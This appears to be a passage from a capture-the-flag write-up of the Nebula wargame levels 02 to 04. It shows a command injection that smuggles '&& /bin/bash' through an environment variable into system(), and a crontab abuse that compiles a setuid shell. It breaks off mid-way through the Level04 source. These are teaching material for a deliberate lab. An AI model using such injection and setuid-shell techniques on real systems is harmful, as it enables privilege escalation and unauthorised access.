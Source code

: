 {{< codecaption lang="sh" title="Command Injection" >}}
level02@nebula:/home/flag02$ export USER="user && /bin/bash #"
level02@nebula:/home/flag02$ ./flag02 
about to call system("/bin/echo user && /bin/bash # is cool")
user
flag02@nebula:/home/flag02$ getflag 
You have successfully executed getflag on a target account
flag02@nebula:/home/flag02$ 
{{< /codecaption >}}

### Level03
Description:

> Check the home directory of flag03 and take note of the files there.
> There is a crontab that is called every couple of minutes.

This level runs crontab every few minutes which executes anything from `writable.d` folder and then removes it. 
We can reuse `/tmp/setuid.c` file from previous levels:
 
{{< codecaption lang="sh" title="Exploiting Crontab" >}}
level03@nebula:/home/flag03/writable.d$ cat exploit.sh
#!/bin/bash

gcc /tmp/setuid.c -o /home/flag03/shell
chmod +s /home/flag03/shell
level03@nebula:/home/flag03/writable.d$ cd ..
level03@nebula:/home/flag03$ ./shell
flag03@nebula:/home/flag03$ getflag 
You have successfully executed getflag on a target account
flag03@nebula:/home/flag03$ 
{{< /codecaption >}}

### Level04
Description:

> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

{{< codecaption lang="c" title="Source Code" >}}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }


[phpexploit]: http://www.madirish.net/402
[race]: https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use
[ld]: (https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)